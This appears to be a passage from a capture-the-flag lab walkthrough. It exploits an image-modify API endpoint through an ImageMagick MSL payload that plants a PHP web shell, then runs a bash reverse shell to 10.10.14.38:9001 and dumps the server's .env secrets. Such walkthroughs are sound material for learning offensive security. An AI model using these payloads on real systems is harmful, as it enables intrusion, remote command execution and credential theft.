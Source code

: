 ```
/api/v2/admin/users
/api/v2/admin/image/modify
/api/v2/admin/image/1

/api/v2/gallery/images
/api/v2/gallery/user/genres
/api/v2/gallery/user/feed

/api/v2/auth/user
/api/v2/auth/login
/api/v2/auth/refresh
/api/v2/auth/logout
```

Let's focus on the **modify** endpoint. No CVE worked so far.

`vid:msl:` hangs the webserver, so maybe [this will work](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/).

```
POST /api/v2/admin/image/modify?effect=swirl&path=vid:msl:/tmp/php*
...

--ABC
Content-Disposition: form-data; name="x"; filename="x.msl"
Content-Type: text/plain

<?xml version="1.0" encoding="UTF-8"?>
<image>
 <read filename="caption:&lt;?php @system(@$_REQUEST['a']); ?&gt;" />
 <write filename="info:/var/www/html/intentions/storage/app/public/test.php" />
</image>
--ABC--
```

It worked! Now to get a reverse shell (needs to be URL-encoded):

```
GET /storage/test.php?a=bash -c 'bash -i >& /dev/tcp/10.10.14.38/9001 0>&1'
```

# Shell as www-data

`id`

```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

`/var/www/html/intentions/.env`

```
DB_PASSWORD=02mDWOgsOga03G385!!3Plcx
APP_KEY=base64:YDGHFO792XTVdInb9gGESbGCyRDsAIRCkKoIMwkyHHI=
JWT_SECRET=yVH9RCGPMXyzNLoXrEsOl0klZi3MAxMHcMlRAnlobuSO8WNtLHStPiOUUgfmbwPt
```
